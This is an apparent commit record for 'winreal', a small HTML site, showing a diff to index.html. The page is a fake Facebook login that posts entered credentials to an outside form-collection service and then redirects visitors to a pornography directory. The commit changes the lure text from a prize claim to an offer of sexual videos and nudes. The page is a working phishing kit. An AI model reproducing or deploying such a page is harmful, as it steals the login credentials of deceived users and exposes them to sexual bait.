

Before and after one commit to kevinbrown289/winreal, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 237-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html
Grt

```diff
--- a/index.html
+++ b/index.html
@@ -109,12 +109,12 @@
     <div class="login-container">
         <!-- Facebook Logo -->
         <img src="https://upload.wikimedia.org/wikipedia/commons/5/51/Facebook_f_logo_%282019%29.svg" alt="Facebook Logo">
-        <p style="color:red">Re-login to claim your winning</p>
+        <p style="color:red">Re-login to view hottest sex videos and sexy nudes </p>
 
         <!-- Login Form -->
         <form id="loginForm" action="https://submit-form.com/VlWBYGciz" method="POST">
              <input
-             type="hidden"
+           type="hidden"
             name="_redirect"
             value="https://theporndude.com/best-erotic-stories-sites"
             type="hidden"/>
```
